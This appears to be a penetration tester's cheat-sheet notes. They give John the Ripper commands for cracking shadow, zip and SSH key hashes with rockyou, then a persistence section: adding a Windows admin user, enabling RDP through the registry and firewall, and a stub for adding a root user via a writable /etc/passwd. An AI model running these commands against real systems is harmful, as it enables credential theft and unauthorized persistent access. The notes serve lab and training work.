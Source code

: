 <aside>
💡 If john shows nothing to crack - and didn’t run even a second → worth a try to reset with

```jsx
rm ~/.john/john.*
```

</aside>

```jsx
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```jsx
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
if we see no password loaded -> john needs help identifying the hash
john mario-unshadowed --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```

```jsx
zip2john sitebackup3.zip > zipjohn
john zipjohn --wordlist=/usr/share/wordlists/rockyou.txt

7z x sitebackup3.zip
```

```jsx
ssh2john id_rsa > ssh.hash
john ssh.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

# Persistence

### Add admin on Windows

```jsx
net user /add [username] [password]
net localgroup administrators [username] /add
```

### Unlock RDP on Windows

```jsx
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```jsx
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Writable /etc/passwd → Root

We can write additional “root2” user, and get priv esc or access via ssh!

```jsx
openssl passwd 123
```
